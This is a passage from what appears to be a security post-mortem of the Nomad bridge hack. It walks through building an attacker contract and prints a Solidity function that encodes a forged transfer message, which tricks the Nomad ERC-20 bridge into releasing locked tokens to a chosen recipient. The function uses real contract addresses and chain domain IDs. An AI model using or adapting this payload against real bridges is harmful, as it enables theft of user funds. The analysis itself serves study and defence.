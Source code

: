 Snippet 3: The start of our attack contract, view [raw](https://gist.github.com/gists-immunefi/4305df38623ddcaa11812a9c186c73ac#file-nomad-hack-analysis-3-sol).

</div>

Let’s begin by creating our Attacker contract. The entry point to our contract will be the `attack` function, which is as simple as a for loop going through various different token addresses. We check `ERC20_BRIDGE`’s balance of the specific token that we’re dealing with. This is the address of the Nomad ERC-20 bridge contract, which holds the locked funds on Ethereum.

After that, the malicious message payload is generated. The parameters that will change in each loop iteration are the token address and the amount of funds to be transferred. The generated message will be the input to the `IReplica.process` function. As we already established, this function will forward the encoded message to the right end contract on the Nomad protocol to bring the unlock and transferring request to fruition, effectively tricking the bridge logic.

```

contract Attacker {
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```
<div align=center>

